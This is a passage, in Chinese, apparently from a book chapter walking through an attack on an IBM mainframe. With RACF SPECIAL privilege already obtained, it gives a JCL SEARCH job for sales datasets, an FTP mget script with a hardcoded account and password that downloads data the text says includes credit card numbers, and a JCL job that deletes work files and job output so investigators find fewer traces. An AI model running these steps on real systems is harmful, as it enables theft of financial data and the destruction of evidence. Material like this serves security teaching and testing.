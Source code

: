 太棒了！一切顺利。我们使用与之前相同的LISTUSER命令检查FTPSRV的权限：
![](chap5/chap5-13.jpg)

终于拿到SPECIAL权限了！既然我们对RACF拥有适当的权限，我们就可以发布垂涎已久的搜索命令：
```
//FTPSRV1 JOB
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 SEARCH FILTER(*.SALES.**)
/*
//SYSIN DD DUMMY
//SYSTSPRT DD DSN=FTPSRV.OUTPUT5,
// DISP=(NEW,CATLG),
// SPACE=(TRK,1)
```

![](chap5/chap5-14.jpg)


很漂亮，不是吗？销售数据、信用卡号码、产品等。剩下要做的就是使用熟悉的mget命令下载这些文件。
```
open 192.168.1.200
FTPSRV
PASS01
mget SALESMAS.SALES.ACOUNTS.*
prompt
mget SALESMAS.SALES.PRODUCTS.*
prompt
mget ARCHIVE.SALES.*
prompt
quit
```

在离开主机之前，我们需要删除在磁盘上创建的多个文件。如果没有我们的帮助，调查人员也会有足够的线索。这个简单的JCL将处理这个任务：
```
//FTPSRV1 JOB,MSGLEVEL=0
//STEP01 EXEC PGM=IKJEFT01
//SYSTSIN DD *
 DELETE 'FTPSRV.OUTPUT1'
 DELETE 'FTPSRV.OUTPUT2'
 DELETE 'FTPSRV.OUTPUT3'
 DELETE 'FTPSRV.OUTPUT4'
 DELETE 'FTPSRV.OUTPUT5'
 DELETE 'FTPSRV.PDS'
 DELETE 'FTPSRV.ELV.SVC'
 OUTPUT FTPSRV1(JOB04721) delete
OUTPUT FTPSRV1(JOB04722) delete
```